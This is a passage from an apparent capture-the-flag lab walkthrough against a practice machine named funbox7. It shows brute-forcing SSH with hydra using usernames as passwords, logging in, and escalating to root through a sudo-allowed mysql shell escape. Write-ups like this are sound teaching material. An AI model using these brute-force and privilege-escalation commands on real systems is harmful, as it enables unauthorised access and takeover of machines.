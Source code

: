 ```bash
+------------------------+
```
{% endcode %}

The same credentials allow us to login into the website, but nothing of use is found there either. So let's step back here: we have a five users that we haven't leveraged yet. The machine has the SSH port open, so we could try brute forcing the password of those users. Brute-forcing SSH can take a long time, so let's start simple by using their names as passwords first.

```bash
$ cat users.txt
goat
harry
karla
oracle
sally

$ hydra -L users.txt -P users.txt ssh://192.168.210.132:22 -t 4
<SNIP>
[DATA] attacking ssh://192.168.210.132:22/
[22][ssh] host: 192.168.210.132   login: goat   password: goat
1 of 1 target successfully completed, 1 valid password found
```

We can now use `ssh` to log into the machine as `goat`.

```bash
$ ssh goat@192.168.210.132
<SNIP>
goat@funbox7:~$
```

We can first check if this user can run any program as `root`.

{% code overflow="wrap" %}
```bash
goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql
```
{% endcode %}

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/#sudo) for `mysql` privilege escalation techniques, we find a way.

```bash
goat@funbox7:~$ sudo /usr/bin/mysql -e '\! /bin/sh'
# cat /root/proof.txt
4cd<REDACTED>b56
```

[^1]: Remote Code Execution

[^2]: Brute Force Attack

[^3]: Brute Force Attack

[^4]: Living off the Land
